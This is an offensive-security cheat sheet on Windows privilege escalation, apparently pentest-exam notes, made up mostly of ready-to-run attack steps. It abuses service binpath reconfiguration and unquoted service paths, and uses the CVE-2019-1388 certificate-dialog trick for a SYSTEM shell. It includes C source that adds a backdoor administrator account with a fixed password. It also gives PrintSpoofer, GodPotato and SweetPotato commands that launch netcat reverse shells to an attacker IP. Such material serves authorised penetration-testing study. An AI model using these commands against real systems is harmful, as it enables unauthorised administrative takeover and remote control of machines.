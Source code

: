 #### Escalation via Binary Paths
- run PowerUp.ps1 - `Invoke-AllChecks`
- If our user has the `“SERVICE_CHANGE_CONFIG”` permission on the `daclsvc` service:
	- `sc config daclsvc binpath= "net localgroup administrators $user /add"`
	- `sc stop daclsvc` and `sc start daclsvc`

#### Unquoted Service Path Escalation
- PowerUp.ps1
- Example service path: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
- when the system is trying to run this executable, it will check for `Program.exe`, `Program Files.exe`, `Program Files\Unquoted.exe`... etc. So the goal is to place our malicious executable in any of those directories we have write access to. The example lab uses: `C:\Program Files\Unquoted Path Service\Common.exe`

#### CVE-2019-1388
If you get a pop up that says `To continue, enter an admin user name and password.` and has a `Show more details` option, you may be able to open up an internet explorer window showing the publisher's certificate. It will open it up as a SYSTEM level user, so you can use internet explorer to pop a shell. 
- Wheel
- Save as
- File
- Search for cmd, then right click and open it. It will open as `nt authority\system`. 

#### UAC Bypass
 Goal is to replace a service exe and either restart the service or reboot (`shutdown /r /t 0`) 
Malicious.c file below:
```
#include <stdlib.h> 

int main () 
{ 
int i; 

i = system ("net user poppop PartyParty123! /add"); 
i = system ("net localgroup administrators poppop /add"); 
   
return 0; 
}
```
Compile the C Program above, and you can use it to create a new admin user (`poppop:PartyParty123!`).
-`i686-w64-mingw32-gcc adduser.c -o adduser.exe` 


### Potato Family
**remember to try transferring the nc.exe binary**
When you have SeImpersonatePrivilege
- Check what version you need (.NET) (Check .NET version): `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"`
- PrintSpoofer: 
	- `.\PrintSpoofer.exe -c "nc.exe $kaliIP $port -e cmd"`
	- `.\PrintSpoofer64.exe -i -c cmd`
- GodPotato:  `".\GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe $kaliIP $port"`
- Sweet Potato (where r.exe = msfvenom shell):`.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc64.exe -a "<ip> <port> -e cmd"` 
- [Sweet Potato](https://eins.li/posts/oscp-secret-sauce/): `.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"`
